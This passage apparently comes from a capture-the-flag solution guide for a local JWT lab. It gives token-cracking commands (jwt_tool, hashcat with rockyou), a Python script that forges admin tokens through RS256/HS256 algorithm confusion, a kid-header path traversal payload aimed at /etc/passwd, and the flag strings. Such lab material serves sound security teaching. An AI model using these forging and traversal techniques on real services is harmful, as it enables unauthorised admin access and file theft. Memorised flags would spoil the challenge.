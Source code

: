 **Example Commands:**
```bash
# Using jwt_tool
python3 jwt_tool.py [TOKEN] -C -d /usr/share/wordlists/rockyou.txt

# Using hashcat
hashcat -a 0 -m 16500 token.txt wordlist.txt
```

### **Flag 3: Algorithm Confusion (Hard) - 500 Points**
- **Vulnerability:** RS256 public key used as HS256 secret
- **Flag:** `FLAG{JWT_4LG0R1THM_C0NFUS10N_H4CK}`
- **Location:** Admin endpoint with forged token

**Attack Steps:**
1. Get RSA public key from `/api/jwt/pubkey`
2. Create JWT signed with HMAC using the RSA public key as secret
3. Change algorithm from RS256 to HS256 in header
4. Access admin endpoints with forged token

**Example Process:**
```python
import jwt
import requests

# Get public key
pub_key = requests.get('http://localhost:5001/api/jwt/pubkey').json()['public_key']

# Forge token
payload = {
    "sub": "admin_user_id",
    "username": "admin",
    "role": "admin", 
    "permissions": ["admin", "read", "write", "delete"]
}

# Sign with public key as HMAC secret
token = jwt.encode(payload, pub_key, algorithm="HS256")
```

### **Flag 4: Kid Parameter Injection (Hard) - 400 Points**
- **Vulnerability:** Path traversal in JWT kid parameter
- **Flag:** `FLAG{JWT_1NJ3CT10N_V1A_K1D_CL41M}`
- **Location:** File system access via kid parameter

**Attack Steps:**
1. Create JWT with malicious `kid` parameter in header
2. Use path traversal to read arbitrary files
3. Target files containing flags or sensitive data

**Example Payload:**
```json
{
  "alg": "HS256",
  "typ": "JWT",
  "kid": "../../../etc/passwd"
}
```
